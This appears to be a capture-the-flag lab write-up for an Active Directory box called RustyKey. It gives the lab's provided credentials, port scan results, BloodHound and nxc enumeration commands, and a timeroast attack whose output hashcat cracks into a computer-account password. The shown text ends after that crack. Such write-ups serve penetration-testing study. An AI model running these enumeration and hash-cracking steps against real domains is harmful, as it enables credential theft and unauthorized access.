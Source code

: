 
![](rusty-info.png)

```
Machine Information
As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: rr.parker / 8#t5HE8L!W3A
```

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```

```
(NTLM:False) --> So need to authenticate with Kerberos !
```

```
bloodhound-python --domain rustykey.htb --domain-controller dc.rustykey.htb --nameserver 10.10.11.75 --username rr.parker --password '8#t5HE8L!W3A' --collectionmethod all --dns-tcp --zip
```

```ldap
nxc ldap rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -k --users
```




### [Timeroast Attack](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/timeroasting)

```
1. The target must be a computer account; ordinary user accounts cannot be directly targeted (unless "Target Timeroasting" is used to modify properties).
   
2. The target domain controller must have the NTP service running with Microsoft SNTP Extended Authentication (MS-SNTP) enabled and responding, with UDP port 123 open.
   
3. The attacker can send unauthenticated MS-SNTP requests to the DC (without valid credentials).
   
4. The attacker can enumerate the RIDs (Relative Identifiers) of computer accounts in the domain.
   
5. (Optional) For "Target Timeroasting," domain administrator privileges are required to temporarily modify user account properties to treat them as computer accounts.

6. The computer account passwords in the domain are not strongly protected (e.g., weak passwords or not regularly changed).
```


```
python timeroast.py DC.rustykey.htb
```

![](rusty-timerroast.png)


We need to donwload the latest version of hashcat inorder to crack the SNTP [Hash](https://hashcat.net/hashcat/).


```hashcat
└─# ./hashcat.bin -m 31300 -a 0 ../hash_ /usr/share/wordlists/rockyou.txt -O
```


```bash
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$sntp-ms$d7e7fef91094a412a2e8cb82c7716f1a$1c0111e900000000000a10504c4f434cec0d09c52308c3f3e1b8428bffbfcd0aec0d1f46bb191728ec0d1f46bb193052:Rusty88!
Approaching final keyspace - workload adjusted.

```


